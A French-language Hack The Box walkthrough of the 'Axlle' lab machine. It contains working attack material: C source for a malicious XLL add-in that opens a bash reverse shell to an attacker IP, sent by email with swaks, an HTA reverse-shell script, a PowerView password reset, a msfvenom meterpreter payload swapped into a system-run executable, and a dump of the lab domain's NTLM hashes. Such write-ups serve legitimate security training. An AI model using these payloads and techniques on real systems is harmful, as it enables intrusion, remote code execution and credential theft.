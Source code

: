 # htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`

![nmap](./images/nmap.png)

De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80

![nmap](./images/dirsearch.png)

Port 445

![nmap](./images/smb.png)

L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt`
![nmap](./images/25.png)

La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

`
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

`

Utilisez gcc pour compiler des fichiers C en fichiers xll
`
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32

`
Envoyez le fichier xll au compte administrateur et attendez l'exécution
`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll

`

![nmap](./images/nc.png)

L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.
`
cd "C:\Program Files (x86)\hmailserver\"

`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *

![nmap](./images/file.png)

### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

`
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

`

![nmap](./images/9200.png)

Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse

![nmap](./images/blood.png)

### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword
`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.

![nmap](./images/modification.png)

### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le

![nmap](./images/rewrite.jpg)

Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.
`
icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"

`
![nmap](./images/icacls.jpg)

On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe

`

![nmap](./images/shell.jpg)

Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

`
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::

`
